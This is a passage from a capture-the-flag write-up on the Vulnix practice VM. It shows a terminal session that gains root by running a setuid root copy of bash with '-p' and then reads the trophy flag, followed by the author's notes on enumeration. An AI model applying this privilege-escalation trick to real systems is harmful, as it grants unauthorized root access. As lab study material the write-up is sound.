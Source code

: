      * Documentation:  https://help.ubuntu.com/  
      
      System information as of Mon Oct 31 04:41:47 GMT 2016  
      
      System load:  0.0              Processes:           90  
      Usage of /:   93.5% of 773MB   Users logged in:     0  
      Memory usage: 7%               IP address for eth0: 192.168.1.72  
      Swap usage:   0%  
      
      => / is using 93.5% of 773MB  
      
      Graph this data and manage this system at https://landscape.canonical.com/  
      
    New release '14.04.5 LTS' available.  
    Run 'do-release-upgrade' to upgrade to it.  
      
    Last login: Mon Oct 31 04:31:08 2016 from 192.168.1.71  
    vulnix@vulnix:~$ ls -al  
    total 1180  
    drwxr-x--- 5 vulnix vulnix    4096 Oct 31 04:41 .  
    drwxr-xr-x 4 root   root      4096 Sep  2  2012 ..  
    -rwsrwxrwx 1 root   root   1171072 Oct 31 04:41 bash  
    -rw------- 1 vulnix vulnix       0 Oct 31 04:31 .bash_history  
    -rw-r--r-- 1 vulnix vulnix     220 Apr  3  2012 .bash_logout  
    -rw-r--r-- 1 vulnix vulnix    3486 Apr  3  2012 .bashrc  
    drwx------ 2 vulnix vulnix    4096 Oct 31 04:09 .cache  
    -rw-r--r-- 1 vulnix vulnix     675 Apr  3  2012 .profile  
    drwxr-xr-x 2 vulnix vulnix    4096 Oct 31 04:09 .ssh  
    vulnix@vulnix:~$ ./bash -p  
    ./bash: /lib/i386-linux-gnu/libtinfo.so.5: no version information available (required by ./bash)  
    bash-4.4# whoami  
    root  
    bash-4.4# ls /root  
    trophy.txt  
    bash-4.4# cat /root/trophy.txt   
    cc614640424f5bd60ce5d5264899c3be  
    bash-4.4#   
      
  
---|---  
  
  
This VM isn't the easiest, I wasn't able to find about user 'user' due to
missing SMTP enumeration. Also the trick where I needed to restart the VM
stalled me for a long time. Still a pretty fun challenge.  

#### Final notes

  * Enumeration is important, without knowing there's a user called user you most likely won't be able to solve this VM. Doesn't matter which service you use, you can enumerate SMTP, Finger, NFS, ...
  * Restarting the VM shouldn't be done via the VMware (or whatever software you use), unless you can reboot the VM with the current privileges, that should be out of question.

  
_Currently listening to [Ghost Bath - Golden Number
](https://www.youtube.com/watch?v=Lyz4eqzgWKg)_  
Abatchy

